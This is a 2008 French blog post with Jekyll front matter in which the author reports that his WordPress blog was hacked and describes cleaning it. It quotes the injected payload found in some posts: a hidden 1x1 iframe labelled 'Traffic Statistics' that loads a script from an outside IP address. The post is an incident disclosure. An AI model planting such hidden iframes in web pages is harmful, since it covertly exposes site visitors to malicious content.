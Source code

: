 ```yaml
---
id: 515
disqus_id: 515 http://regis.decamps.info/blog/?p=515
title: 'Ce blog s’est fait kacker'
date: 2008-05-12T23:41:08+00:00
author: Régis
layout: post
guid: http://regis.decamps.info/blog/2008/05/ce-blog-sest-fait-kacker/
permalink: /blog/2008/05/ce-blog-sest-fait-kacker/

dsq_thread_id:
  - "564520470"
categories:
  - High-tech
  - Misc
tags:
  - Misc
  - Sécurité
---
```

Attention, mon blog a été hacké.

Google indiquait que mon blog était `potentiellement dangereux’. J’ai d’abord cru qu’ils avaient fumé ; mais en fait non. 

Par exemple, quelques posts contenaient
  
```
<!-- Traffic Statistics --> <iframe src=http://xx.155.8.157/iframe/wp-stats.php width=1 height=1 frameborder=0></iframe> <!-- End Traffic Statistics -->
```


WordPress a connu un certain nombre de failles de sécurité, et j’ai un peu de mal à suivre les mises à jour. 

J’ai fait le ménage à coup de requêtes SQL. Deux articles étaient concernés:

  * <http://regis.decamps.info/blog/2008/04/liso-approve-loffice-open-xml/>
  * <http://regis.decamps.info/blog/2007/10/boutique-ferrari/>
